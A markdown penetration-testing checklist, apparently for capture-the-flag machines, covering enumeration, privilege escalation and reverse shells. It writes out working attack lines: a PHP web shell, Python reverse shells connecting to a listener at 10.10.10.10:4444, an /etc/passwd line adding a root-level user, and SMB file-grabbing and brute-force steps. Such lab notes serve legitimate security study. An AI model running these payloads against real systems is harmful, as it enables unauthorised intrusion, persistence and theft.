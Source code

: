 # Checklist

<details>
  <summary>Preparation</summary>
- [ ] Find IP of the machine
	- [ ] `export IP=<MACHINE_IP>`
	- [ ] `export MACHINE_NAME=<MACHINE_NAME>`
- [ ] Set folder structure
	- [ ] `cd ctf/`
	- [ ] `mkdir -p $MACHINE_NAME/enum`
	- [ ] `mkdir -p $MACHINE_NAME/files`
	- [ ] `touch $MACHINE_NAME/enum/users.txt`
	- [ ] `cp templates/report.md ctf/$MACHINE_NAME/${MACHINE_NAME}.md`
- [ ] Set hostname in etc/hosts (if helps)
</details>


<details>
  <summary>Enumeration</summary>

- [ ] Enum
	- [ ] Nmap
		- [ ] [Howto](active-information-gathering/nmap.md)
			- [ ] Copy key findings to report
			- [ ] check results
			- [ ] Paste to [report](templates/report.md)
			- [ ] Highlight exploitables/targets
	- [ ] Rustscan
		- [ ] check results
  - [ ] `enum4linux $IP` -> users, share, comon structure, server block.
    - [ ] Highlights
      - [ ] check results
      - [ ] Check SMB null session
      - [ ] system level users
	- [ ] nmap-nse
		- [ ] [Howto](active-information-gathering/nmap.md#nmap-nse)
	- [ ] smb/netbio-ssn
		- [ ] Ports [139, 445]
		- [ ] `mkdir smb`
		- [ ] `nmap -p139,445 --script=smb-enum-shares $IP`
			- [ ] `smbclient //<IP>/IPC$ -N (/ADMINS/)` -> N: smb null session.
			- [ ] smbclient //'IP'/qui -N
			- [ ] crackmapexec
			- [ ] mfsconsole > use auxilaiary(scanner/smb/smb_login) > set pass rockyou.
		- [ ] `smbmap -H $IP`
		- [ ] `smbclient --no-pass -L //$IP`
		- [ ] `smbclient --no-pass \\\\$IP\\anonymous`
		- [ ] `smbclient \\\\$IP\\ITDEPT anonymous` [Tested]
		- [ ] `mget file.name`
		- [ ] `smbmap -u <user> -p <PassWord> -H $IP`
		- [ ] `smbclient //'IP'/<share> -U'user'%'password'`
		- [ ] `smbclient //$IP/secured -U <user>%<password> -c "prompt OFF;recurse ON;mget *"`
	- [ ] ssl/pop3 [110]
	- [ ] ssl/imap [993/143]
	- [ ] Apache Tomcat [8080]
		- [ ] Read Version
		- [ ] Check URL (hints)
		- [ ] default credentials
		- [ ] mfsconsole /is it allowed?
	- [ ] Domain [53]
	- [ ] Web Enum
		- [ ] Load each targetted port in browser
		- [ ] export PORT=80
		- [ ] `dirb http://$IP:$PORT/ -r`
		- [ ] `nikto --host http://<IP> -C all` :: tool for webapp
		- [ ] `export URL=${IP}:8080/FUZZ` or `export URL=${IP}:8080/FUZZ/`
			- [ ] HTTPS you will want to include protocol too
			- [ ] `wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"`
		- [ ] `gobuster dir -u http://$IP -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt`  :: helpful during bruteforce
		- [ ] framework/server/service -> searchexploit
		- [ ] Check for config through URL's like
		- [ ] hostname/username/re-use etc
		- [ ] LFI
			- [ ] check for ssh keys
			- [ ] check for service/app configuration file (e.g: /etc/tomcat7/tomcat-users)
			- [ ] vsftpd -> upload, to rce from upload file
		- [ ] RFI
			- [ ] rev shell
				- [ ] https://www.revshells.com/
				- [ ] `python -c 'import pty;pty.spawn("/bin/bash")'`
		- [ ] `linpeas.sh`
		- [ ] CUPS Http `631`
	- [ ] SSH
		- [ ] hydra
			- [ ] [Howto](tools/bruteforce/ssh/hydra)
	- [ ] `curl -A "GoogleBot" http://$IP/robots.txt`
	- [ ] searchsploit
	- [ ] Port knocking
		- [ ] nmap port knock 
- [ ] /cgi-bin
	- [ ] shellshock [Howto](foothold/shellshock)
- [ ] morse code?
</details>


<details>
	<summary>Privilege Escalation</summary>
- [ ] privileges escalation
	- [ ] `sudo -l`
	- [ ] password re-use
		- [ ] from credentials founds in enum
		- [ ] `su - <user>`
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test 
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`
		- [ ] e.g: `sudo /usr/bin/mysql -e '\! /bin/sh'`  [sudo nopass for mysql](https://gtfobins.github.io/gtfobins/mysql/#sudo)
	- [ ] `netstat -tupanl | grep -i '127.0.0.1'` -> anything running on loopback
	- [ ] `find / -perm -u=s -type f 2>/dev/null` 
		- [ ] *_The first step is to identify all programs or files that have SUID bits enabled_*
			- [ ] example
				- [ ] /usr/bin/zsh
		- [ ] Read Source Code (if any)
		- [ ] look for files owned by root grouped by user.
		- [ ] `ps aux | grep -i 'root' --auto-color` <-- anything running as root?
			- [ ] lateral machines? (not done anything like this)
			- [ ] private ip address? (not done anything)
			- [ ] web root -> any db credes?
	- [ ] Take advantage of this misconfiguration by abusing the PATH variable
	- [ ] Take advantage of misconfigured cronjob.
	- [ ] `find / -perm -u=g -type f 2>/dev/null` -> Are there any GUID
	- [ ] simple HTTP server
		- [ ] download pspy
		- [ ] Second shell -> `pspy<BIT>`
		- [ ] `getcap -r / 2>/dev/null` -> Are there any extended permissions
		- [ ] exploit miss-configuration
	- [ ] writeable `passwd`?
		- [ ] `perl -le 'print crypt("PassWord","addedsalt")'`
		- [ ] `echo "nullBrain:saltedvaluefromabove:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd`
	- [ ] `kernel exploits?`
		- [ ] e.g Dirty Cow [example HowTo](practical/dirty_cow)

</details>


<details>
  <summary>Remote Code Execution (RCE)</summary>
- [ ] Remote Code Execution
	- [ ] `<?php system($_GET['cmd']);?>`
	- [ ] Verify RCE
		- [ ] e.g : `http://$IP/<path>/?lang=/var/ftp/pub/backdoor.php&cmd=id`.`
		- [ ] Payload:
			- [ ] https://github.com/nullbr41n/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
			- [ ] payload converter (hURL)
			- [ ] `python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`
			- [ ] `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
</details>


<details>
  <summary>Reverse Shell</summary>

- [ ] Reverse Shell
	- [ ] web uploads
		- [ ] `nc - nlvp 1` `Listening on port 1`
		- [ ] Upload payload on other side, should open connection
		- [ ] check RCE section.
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`

</details>